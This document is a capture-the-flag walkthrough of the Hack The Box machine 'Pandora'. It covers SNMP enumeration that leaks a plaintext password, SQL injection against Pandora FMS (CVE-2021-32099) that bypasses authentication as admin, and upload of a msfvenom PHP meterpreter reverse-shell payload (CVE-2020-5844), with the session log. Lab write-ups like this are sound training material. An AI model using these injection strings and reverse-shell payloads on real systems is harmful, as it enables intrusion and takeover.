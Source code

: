 # Pandora

1. Nmap TCP and UDP port with script
````
# nmap -sS -p- pandora.htb -oG 10.10.11.136-sS
# nmap -sU -p- pandora.htb -oG 10.10.11.136-sU
````

````
# snmpwalk -v2c -c public 10.10.11.136:161 1.3.6.1.2.1.25.4.2.1 > 10.10.11.136-snmpwalk
````

~iso.3.6.1.2.1.25.4.2.1.5.864 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"~

~iso.3.6.1.2.1.25.4.2.1.5.1107 = STRING: "-u daniel -p HotelBabylon23"~

2. Login into remote server
````
# ssh daniel@10.10.11.136
````

3. Enumerates
````
daniel@pandora:~$ ss -nlpt
State          Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port         Process         
LISTEN         0               80                           127.0.0.1:3306                        0.0.0.0:*                            
LISTEN         0               4096                     127.0.0.53%lo:53                          0.0.0.0:*                            
LISTEN         0               128                            0.0.0.0:22                          0.0.0.0:*                            
LISTEN         0               511                                  *:80                                *:*                            
LISTEN         0               128                               [::]:22                             [::]:*                            
daniel@pandora:~$ curl http://127.0.0.1:80
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">
````

4. Login redirecting the remote port
````
# ssh -L80:127.0.0.1:80 daniel@10.10.11.136
````

5. Enumarates
````
v7.0NG.742_FIX_PERL2020
````
- [CVE-2021-32099](https://nvd.nist.gov/vuln/detail/CVE-2021-32099)
- [CVE-2020-5844](https://nvd.nist.gov/vuln/detail/CVE-2020-5844)

## CVE-2021-32099
6. Test the target system with malformed input values'    "   `   %    %%   --   /*   //    )    ;
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20%20%20%20%22%20%20%20`%20%20%20%%20%20%20%20%%%20%20%20--%20%20%20/*%20%20%20//%20%20%20%20)%20%20%20%20;

````sql
SQL error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use 
near '" ` % %% -- /* // ) ;' LIMIT 1' at line 1 ('SELECT * FROM tsessions_php WHERE `id_session` = '' " ` % %% -- /* // ) ;' LIMIT 1') in
/var/www/pandora/pandora_console/include/db/mysql.php on line 114
````

````sql
sqlmap -u '127.0.0.1/pandora_console/include/chart_generator.php?session_id=*' --dbms=MySQL --sql-shell
sql-shell> SELECT * FROM tsessions_php WHERE `id_session` = ''OR `data` LIKE '%id_usuario|s:5:"admin";%'
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, gn7p2qba6310m05qn6iom3bvdf, 1642782084
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, hj8tgic0fv8hmmb19b3j851af5, 1642779787
````

7. Access the URL
````sql
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=PAYLOAD'OR `data` LIKE '%id_usuario|s:5:"admin";%
````

and then your user will be logged
````
http://127.0.0.1/pandora_console/
````

## CVE-2020-5844

8. Create the payload then start multi handler

````bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o payload.php
$ msfconsole -qx "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LPORT 4444; set LHOST tun0; exploit"
````

9. Upload the file to the vulnerable URL
````
http://127.0.0.1/pandora_console/index.php?sec=gextensions&sec2=godmode/setup/file_manager
````

10. Access it on your browser
````
http://127.0.0.1/pandora_console/images/payload.php
````

````bash
root@kali:~# msfconsole -qx "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LPORT 4444; set LHOST tun0; exploit"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
LPORT => 4444
LHOST => tun0
[*] Started reverse TCP handler on 10.10.14.221:4444 
[*] Sending stage (39282 bytes) to 10.10.11.136
[*] Meterpreter session 1 opened (10.10.14.221:4444 -> 10.10.11.136:37560 ) at 2022-01-21 16:42:47 -0500

meterpreter > getuid 
Server username: matt
meterpreter >
````


[OID repository](http://www.oid-info.com/get/1.3.6.1.2.1.25.4.2.1.5)
